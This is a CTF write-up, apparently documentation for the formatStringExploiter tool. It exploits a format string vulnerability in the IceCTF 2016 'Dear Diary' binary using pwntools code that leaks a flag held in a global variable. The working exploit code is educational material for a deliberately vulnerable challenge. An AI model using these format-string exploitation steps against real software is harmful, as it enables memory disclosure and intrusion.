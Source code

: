 #######################
IceCTF 2016: Dear Diary
#######################

********
Overview
********
Deardiary is a CTF challenge that drops you into an interactive menu with three
options (add entry, print latest entry, quit). By placing a "%x" in the diary
and printing it we see there's a format string vulnerability. Further, through
a cursory look at the binary we can tell that it first reads the flag into
memory prior to dopping the user into a prompt. This means we are supposed to
use the format string vulnerability to print out the flag.

Example::

  $ ./deardiary
  -- Diary 3000 --

  1. add entry
  2. print latest entry
  3. quit
  > 1
  Tell me all your secrets: %x
  
  1. add entry
  2. print latest entry
  3. quit
  > 2
  6e
  
  1. add entry
  2. print latest entry
  3. quit
  > 3

*****************
The Vulnerability
*****************
As stated earlier, this is a strait forward format string vulnerability. With
the goal being to print out the flag from memory, we can find that the flag is
actually being read into a global variable named `data`. Because this is a
global variable and this binary is not position independent, this gives us a
static address to read.


****************
Step 1: exec_fmt 
****************
The first step in using the ``FormatString`` class is to create an exec_fmt
function. This function will take in any arbitrary input, pass that input into
the application properly, parse the results and return the results back. At
this point, we're not worried about exploiting the vulnerability, we're simply
interacting with the program.

.. code-block:: python

  def exec_fmt(s):
      p = process("./deardiary",bufSize=0xffff)
      p.recvuntil("quit")
      # Create a new entry with our format string
      p.sendline("1")
      p.sendline(s)
      p.recvuntil("quit")
      # Print the entry
      p.sendline("2")
      p.recvuntil(">")
      # Grab the relevant output to return
      out = p.recvuntil("1.",drop=True)
      p.recvuntil("quit")
      p.close()
      return out


*************************
Step 2: Instantiate Class
*************************
Next, we need to instantiate a FormatString class. This can be done strait
forward. To make it simpler, we'll also open an ``ELF`` class on the exe.

.. code-block:: python

  from formatStringExploiter.FormatString import FormatString
  from pwn import *
  
  # Load the binary in pwntools. This way we don't need to worry about the
  # details, just pass it to FormatString
  elf = ELF("./deardiary")
  
  # Now, instantiate a FormatString class, using the elf and exec_fmt functions
  fmtStr = FormatString(exec_fmt,elf=elf)

You will see some data scroll. This is the FormatString class attempting to
discover your buffer for you. Finally, you'll see something like this::

  Found the offset to our input! Index = 18, Pad = 0

Good to go now. It has found the buffer, we can simply ask the class to perform
actions for us now.

*********************
Step 3: Read the flag
*********************
We now have a functional and initialize ``FormatString`` class. We also know
where the flag resides (global variable `data`). Now we can simply read the
flag from memory.

.. code-block:: python

  fmtStr.leak.s(elf.symbols['data'])

That's it. Your flag is printed. If this were the CTF, you could change
``process`` to ``remote`` and run it again to grab the flag.

*********
Resources
*********
* `deardiary <https://github.com/Owlz/formatStringExploiter/blob/master/docs/examples/deardiary?raw=true>`_
* `deardiary.py <https://raw.githubusercontent.com/Owlz/formatStringExploiter/master/docs/examples/deardiary.py>`_
* `deardiary github <https://github.com/ctfs/write-ups-2016/blob/39e9a0e2adca3a3d0d39a6ae24fa51196282aae4/icectf-2016/pwn/dear-diary-60/readme.md>`_
